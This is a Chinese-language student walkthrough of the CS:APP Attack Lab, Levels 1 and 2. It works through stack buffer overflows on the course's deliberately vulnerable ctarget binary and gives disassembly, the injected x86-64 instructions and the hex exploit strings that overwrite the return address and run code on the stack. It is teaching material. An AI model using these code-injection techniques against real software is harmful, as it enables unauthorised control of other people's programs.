









# Attack Lab

同之前实验一样，首先要干的事情还是阅读`README`和`writeup`文件。

阅读`README`文件可知：

> Students are given binaries called ctarget and rtarget that have a buffer overflow bug.  They are asked to alter the behavior of their targets via five increasingly difficult exploits. The three attacks on ctarget use code injection. The two attacks on rtarget use return-oriented programming.


> Each exploit involves reading a sequence of bytes from standard input into a buffer stored on the stack. Students encode each exploit string as a sequence of hex digit pairs separated by whitespace, where each hex digit pair represents a byte in the exploit string. The program
"hex2raw" converts these strings into a sequence of raw bytes, which can then be fed to the target:

> unix> cat exploit.txt | ./hex2raw | ./ctarget

简单来说，就是需要自己创建一个`exploit.txt`文件，通过实验提供的`hex2raw`程序将其翻译成字节流后送给`ctarget`程序作为参数执行。



而`exploit.txt`文件需要实现《CSAPP》原书中提到的代码注入和面向返回的编程(return-oriented programming)。

且`README`文件最后提到:

> Students will need to run ctarget and rtarget using the -q option, which tells the targets not to try to contact the (non-existent) grading server.

经过尝试:



需要加上`-q`选项来阻止程序连接CMU的服务器以正常运行，下面正式进入该实验。

## Part 1


### Level 1

`ctarget`程序运行中会调用函数`<test>`:

```c
void test(){
	int val;
	val = getbuf();
	printf("No exploit. Getbuf returned 0x%x\n", val);
}
```
而在`<test>`中会调用函数`<getbuf>`:

```c
unsigned getbuf() {
	char buf[BUFFER_SIZE];
	Gets(buf);
	return 1;
}
```

Level 1的任务比较简单，即要求在函数`<getbuf>`执行返回语句时，将程序的执行流重定向到函数`<touch1>`:

```c
void touch1() {
	vlevel = 1; /* Part of validation protocol */
	printf("Touch1!: You called touch1()\n");
	validate(1);
	exit(0);
}
```

依据`Bomb Lab`的经验，首先对程序进行反汇编查看一下汇编代码:
```bash
objdump -d ctarget > outdump.s
```
找到`<test>`所在位置:



该函数首先将栈指针减8，随后调用了`<getbuf>`函数。(注意：调用函数之前会将返回地址压栈)



`<getbuf>`首先将栈指针减0x28也就是40字节后，
```x86-asm
mov %rsp, %rdi
```
这条指令含义是将`%rdi`赋值为`%rsp`，所以我们可以知道，下面调用的函数传递参数是使用栈来传递的，所以当参数长度超过了分配栈空间长度时，就会导致栈溢出。

随后调用了`<Gets>`函数。

此时画出栈的情况示意图:


从`<getbuf>`最后两行可以得知，当从`<getbuf>`返回退栈时，40字节的内容会被清空，并弹出栈顶数据到`%rip`寄存器中，此时程序转移控制流。

所以此时只需要将返回的数据设置为函数`<touch1>`的起始地址即可，查看`<touch1>`的起始地址:



所以需要填写的字节编码可以为(前40字节任意):

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

输入运行:



### Level 2

Level 2的要求同 Level 1一样，要将返回`<test>`时的控制流转换到调用`<touch2>`函数的执行上，同时要求执行时传入一个参数为`cookie`(在实验文件夹的`cookie.txt`文件中)。

并且调用`<touch2>`不能使用`jmp、 call`指令，只能使用`ret`指令。

```c
void touch2(unsigned val){
	vlevel = 2; /* Part of validation protocol */ 
	if (val == cookie) {
	printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2); 
	}
	else{
    printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2); 
	}
	exit(0);
}
```

回顾《CSAPP》原书中提到的`ret`指令，其等价为:
```x86-asm
pop %rip
```
即将栈顶数据弹栈到`%rip`寄存器中，同时栈顶指针上移(假设栈由高地址向低地址生长，低地址在底端)。

画出栈的存储情况示意图：

我们可以试想，同Level 1一样，在`<test>`的栈帧的返回地址处存放`<touch2>`的地址，从而在`<getbuf>`退栈时能调用`<touch2>`，但是有一个问题，我们需要预先传递我们的`cookie`参数到`%rdi`寄存器中，如果采用这种方式，参数就会无法传递。

经过观察可以发现，`<getbuf>`函数开辟的40字节的栈帧，这部分空间在退栈时直接被清空，不会再进行使用，所以，我们可以考虑在这个部分放置我们的传递参数的代码，假设这部分标记为`<ta>`，那么我们可以进行如下考虑：

首先`<getbuf>`退栈时转移控制流到`<ta>`部分，在此部分进行参数传递的工作，然后将`<touch2>`函数的入口地址压榨再弹栈(使用`ret`指令)，这样程序的控制流就正常转移到了`<touch2>`上并且也完成了参数传递。



此时查看栈顶指针`%rsp = 0x5561dc78`，所以栈帧情况如下图所示:


所以，我们可以在蓝色括号所示的栈帧区域内填入我们的处理代码，在`<test>`返回地址处填入我们的处理代码的地址，处理代码如下所示:

```x86asm
# 传递cookie到rdi寄存器
mov $0x59b997fa, %rdi
# 栈顶压入touch2起始地址，再退栈
# 此时touch2执行地址被送入rip寄存器
pushq $0x4017ec
retq
```

将我们的指令序列转换为字节编码:


> unix> gcc -c example.s
> unix> objdump -d example.o > example.d


获得的字节表示为:



根据小端地址的顺序，所以我们最终填入字节编码为:

```bash
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

测试：




